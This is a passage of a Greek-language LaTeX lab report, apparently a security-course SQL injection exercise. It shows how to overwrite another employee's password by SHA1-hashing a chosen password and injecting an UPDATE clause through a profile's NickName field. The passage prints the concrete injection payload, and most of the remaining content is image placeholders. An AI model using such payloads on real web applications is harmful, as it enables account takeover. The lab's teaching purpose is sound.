			
\includegraphics[width=1\textwidth]{image/3.2.0.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.2.1.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.2.2.PNG}		
\end{center}

\subsection{Τροποποίηση του κωδικού πρόσβασης άλλων υπαλλήλων}

Για να τροποποιήσουμε τον τον κωδικό κάποιου υπαλλήλου με κάτι που να γνωρίζουμε
εμείς θα χρησιμοποιήσουμε την ίδια μέθοδο με τις προηγούμενες δυο, άπλα θα 
κάνουμε κάποια προετοιμασία πρώτα. Γνωρίζουμε ότι η εφαρμογή χρησιμοποιεί 
τον αλγόριθμο SHA1 για την παραγωγή hash των κωδικών. Επομένως αν άπλα 
αλλάζαμε τον κωδικό κάποιου με ένα δικό μας string τότε όταν προσπαθούσαμε
να συνδεθούμε θα αντιμετωπίζαμε το έξεις πρόβλημα, ο κωδικός που βάζαμε
θα περνούσε από των SHA1 παράγοντας το αντίστοιχο hash και αυτό θα συγκρίνονταν
εν τελεί με τον κωδικό στην βάση, οπού προφανώς θα ήταν διαφορετικά και δεν θα
καταφέρναμε να πάρουμε πρόσβαση. 
Για αυτόν τον λόγο θα μιμηθούμε το πρόγραμμα και θα αποθηκεύσουμε στην βάση
το hash του κωδικού και όχι των ίδιο τον κωδικό.

\noindent
Μπαίνουμε στη σελίδα \url{www.sha1-online.com} επιλέγουμε sha-1 πληκτρολογούμε
τον κωδικό που θα χρησιμοποιήσουμε και επιλέγουμε hash.
Στην περίπτωση μας ο κωδικός που θα χρησιμοποιήσουμε είναι, \\ \textbf{InvisiblePinkUnicorn} \\
και το hash που μας παράγει είναι, \\ \textbf{f658532dcdec943b1faf048c438bb4af0899713f}.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.3.5.PNG}		
\end{center}

\noindent
Επόμενος γράφουμε την παρακάτω είσοδο στο πεδίο NickName της Alice.

\begin{center}
	\begin{lstlisting}
',Password='f658532dcdec943b1faf048c438bb4af0899713f' 
where name='Boby';#
	\end{lstlisting}	
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.3.0.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.3.1.PNG}		
\end{center}

\begin{center}
